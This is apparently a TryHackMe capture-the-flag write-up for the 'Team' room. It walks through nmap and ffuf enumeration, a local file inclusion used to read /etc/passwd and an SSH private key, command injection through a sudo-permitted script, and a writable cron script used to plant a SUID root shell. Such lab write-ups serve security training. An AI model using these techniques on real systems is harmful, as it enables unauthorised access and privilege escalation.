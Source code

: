 # Team (THM)

- https://tryhackme.com/room/teamcw
- March 8, 2023
- easy

---

## Enumeration

### Nmap

```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack vsftpd 3.0.3
22/tcp open ssh syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### FTP

- no anonymous login allowed

### HTTP

- default page
- brute force directory with ffuf
- nothing found

![](images/2023-03-09-00-00-31.png)

- we need to add `team.thm` in `/etc/hosts` file in local machine
- then can found a web page

![](images/2023-03-09-00-02-08.png)

- directory brute forcing with ffuf

```
assets
images
robots.txt -> dale
scripts -> 403
```

- search subdomains

```sh
ffuf -u http://team.thm -w /usr/share/wordlists/dnsnames.txt -H "Host: FUZZ.team.thm" -c -t 128 -fs 11366
```

```
dev
flowersshoreditch
www
```

- add in `/etc/hosts` file

- `http://dev.team.thm`

![](images/2023-03-09-00-16-59.png)

![](images/2023-03-09-00-18-08.png)

- page parameter may be vulnerable to lfi?
- try with `/etc/passwd` file

- it is vulnerable to lfi

![](images/2023-03-09-00-19-09.png)

- As I don't know which file to see, I use `LFI-gracefulsecurity-linux.txt` from seclist wordlist, and fuzz with ffuf and use proxy as burp

```sh
$ ffuf -u http://dev.team.thm/script.php\?page\=FUZZ -w /opt/wordlists/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -c -t 128 -x http://127.0.0.1:8080
```

- interesting files from LFI
- /etc/ssh/sshd_config -> can found id_rsa file

![](images/2023-03-09-00-30-46.png)

- save id_rsa
- chmod to 600 and try to enter as dale

## User Access

- enter as dale user with above id_rsa

```sh
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks

```

- check what is `admin_checks` file

```sh
dale@TEAM:/home/gyles$ file admin_checks
admin_checks: Bourne-Again shell script, ASCII text executable

dale@TEAM:/home/gyles$ cat admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

- what is the purpose of `error` variable??
- we can get gyles' shell by adding `/bin/bash` in error variable input

![](images/2023-03-09-00-50-07.png)

- we get gyles user
- find some interesting GUID for gyles

![](images/2023-03-09-00-53-53.png)

![](images/2023-03-09-00-57-36.png)

- check which process are running with `pspy`

![](images/2023-03-09-01-02-53.png)

- this process is running once per minute and gyles user is also group member of admin and can write `main_backup.sh` file

## Root Access

- write to get SUID bash shell in tmp folder

![](images/2023-03-09-01-06-23.png)

- wait for the root user to run that script

![](images/2023-03-09-01-07-05.png)

---
